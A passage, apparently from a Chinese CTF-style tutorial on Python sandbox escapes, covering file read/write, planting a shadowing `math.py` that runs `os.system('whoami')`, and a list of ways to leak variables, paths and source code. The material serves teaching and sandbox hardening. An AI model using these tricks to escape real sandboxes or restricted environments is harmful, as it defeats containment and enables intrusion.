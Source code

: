 ```
```

### 文件读写

2.x 有个内建的 `file`：

```
>>> file('key').read()
'Macr0phag3\n'
>>> file('key', 'w').write('Macr0phag3')
>>> file('key').read()
'Macr0phag3'

DELPHI
```



还有个 `open`，2.x 与 3.x 通用。

还有一些库，例如：`types.FileType`(rw)、`platform.popen`(rw)、`linecache.getlines`(r)。

如果能写，可以将类似的文件保存为`math.py`，然后 import 进来：
math.py：

```
print(__import__('os').system('whoami'))
```

调用`import math`

这里需要注意的是，这里 py 文件命名是有技巧的。之所以要挑一个常用的标准库是因为过滤库名可能采用的是白名单。并且之前说过有些库是在`sys.modules`中有的，这些库无法这样利用，会直接从`sys.modules`中加入，比如`re`：

```
>>> 're' in __import__('sys').modules
True
>>> 'math' in __import__('sys').modules
False
```

这里的文件命名需要注意的地方：由于待测试的库中有个叫 `test`的，如果把测试的文件也命名为 test，会导致那个文件运行 2 次，因为自己 import 了自己。

math.py

```
import math

...
```

获取敏感信息：

1. `dir()`
2. `__import__("__main__").x`，其中 `__main__` 还会泄露脚本的绝对路径：`<module '__main__' from 'xxx.py'>`
3. `__file__`，文件绝对路径
4. `x.__dict__`
5. `locals()`
6. `globals()`
7. `vars()`
8. `sys._getframe(0).f_code.co_varnames`
9. `sys._getframe(0).f_locals`
10. `inspect.x`，inspect 有很多方法可以获取信息，比如获取源码可以用 `inspect.getsource`，还有其他很多的功能
11. 
